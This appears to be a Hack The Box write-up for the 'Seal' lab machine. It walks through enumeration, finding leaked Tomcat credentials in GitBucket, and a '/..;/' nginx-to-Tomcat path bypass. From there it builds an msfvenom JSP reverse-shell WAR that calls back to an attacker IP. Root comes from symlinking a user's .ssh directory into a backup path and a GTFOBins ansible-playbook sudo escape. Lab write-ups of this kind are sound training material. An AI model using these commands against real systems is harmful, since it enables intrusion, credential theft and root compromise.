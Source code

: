 ![](seal_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.250 seal.htb

**nmap scan:**
```bash
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 19 Jul 2021 01:58:12 GMT
|     Set-Cookie: JSESSIONID=node011404vs9ar3yf13p0bynzm3e473256.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest: 
|     HTTP/1.1 401 Unauthorized
|     Date: Mon, 19 Jul 2021 01:58:09 GMT
|     Set-Cookie: JSESSIONID=node0tb9dlbm6phenql9adikr4oaa73254.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 19 Jul 2021 01:58:10 GMT
|     Set-Cookie: JSESSIONID=node0lj0ulchztdazm08pgm1ft1e173255.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
... [snip] ...
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

* Host os is **Ubuntu Focal** from [OpenSSH 8.2p1 Ubuntu 4ubuntu0.2](https://launchpad.net/ubuntu/+source/openssh/1:8.2p1-4ubuntu0.2)
* Get **Hostname:** `seal.htb` from https server ssl certificate.
* Viewing ssl certificate found **Email address:** `admin@seal.htb`

**Port 8080** Running "[GitBucket](https://bitbucket.org/product)"

![](screenshots/port8080-gitbucket.png)

Create new account and login, found some "root" user repositories

![](screenshots/git-repos.png)

**Information collected from gitbucket repositories**
* Found 2 Users `Infra Admin:alex@seal.htb` and `Core Dev:luis@seal.htb`
  * `alex`
  * `luis`
* `seal_market` repository contains source code for application running on https server.
* From on of the `seal_market` repository commit found **Tomcat credential:** `tomcat:42MrHBf*z8{Z%`
* successfully logged in as user "`luis`" with tomcat password "`42MrHBf*z8{Z%`".
* from nginx config `/root/seal_market/blob/master/nginx/sites-enabled/default`, nginx server worked as a proxy and redirect https server to local tomcat server `/root/seal_market/blob/master/tomcat/server.xml`. 
* From `/root/seal_market/blob/master/nginx/sites-enabled/default`
  * There are 3 locations on the server 
    * Tomcat manager: `/manager/html` and `/host-manager/html`
    * seal_market app admin: `/admin/dashboard`
  * These locations only accessible mutual authentication, There is no registration and login features for accessing.
    * **[Mutual Authentication](https://www.docusign.com/blog/dsdev-mutual-tls-stuff-know):** The TLS handshake Certificate Request message is optionally sent by the server to the client. ... After sending the Certificate Request message and receiving a reply, the server verifies the client's certificate. When verification is successful, the server has authenticated the client.


# Foothold

## server url Parser Logic

This configuration could bypass with `;` because of the Path Normalization bypass flaw.
* [Breaking Parser Logic! By Orange Tsai](https://www.youtube.com/watch?v=CIhHpkybYsY)
* [Tomcat specific](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)

When we send request to a simple nginx server `/test1/../test2` it normalized to `/test2` and if we add anything with `..` like `/..!/` it will not and if we send `/..;/` reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is. Tomcat will threat the sequence `/..;/` as `/../` and normalize the path while.

This can even bypass with `/;/manager/html`

![](screenshots/tomcat-manager.png)

Now, upload malicious war file and get reverse shell

Generate war file
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f war > reverse.war
```

Intercept war file upload request in burp.

![](screenshots/upload-war.png)

edit the url and forward request

![](screenshots/intercept-war.png)

![](screenshots/war-deploy.png)

![](screenshots/rev-shell.png)

# Privesc

## `ansible-playbook` Command with sudo

In `/opt` directory, there is a `run.yml` that creating backup of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` directory and using `copy_links=yes` parameter and if check [ansible synchronize_module docs](https://docs.ansible.com/ansible/2.3/synchronize_module.html)

**`copy_links`** Copy symlinks as the item that they point to (the referent) is copied, rather than the symlink.

![](screenshots/ansible-sync.png)

And Two things we already have read access in user "luis" home folder and write access in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`.
```bash
(remote) tomcat@seal:/home$ ls -l 
total 4
drwxr-xr-x 9 luis luis 4096 May  7 07:01 luis
(remote) tomcat@seal:/home$ ls -l /var/lib/tomcat9/webapps/ROOT/admin/dashboard
total 92
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7 09:26 uploads
```

and user "luis" home folder contains .ssh directory.

we can symlinks `/home/luis/.ssh` in `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` and when next backup created it will add `.ssh` directory
```bash
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
```

![](screenshots/extract-files.png)

User "luis" can run `/usr/bin/ansible-playbook` as any user with sudo.
```bash
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

and `/usr/bin/ansible-playbook` this symlink to `ansible`
```bash
luis@seal:~$ ls -la /usr/bin/ansible-playbook
lrwxrwxrwx 1 root root 7 Mar 16  2020 /usr/bin/ansible-playbook -> ansible
```

found exploit in [gtfobins](https://gtfobins.github.io/gtfobins/ansible-playbook/)
```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo /usr/bin/ansible-playbook $TF
```

![](screenshots/rooted.png)

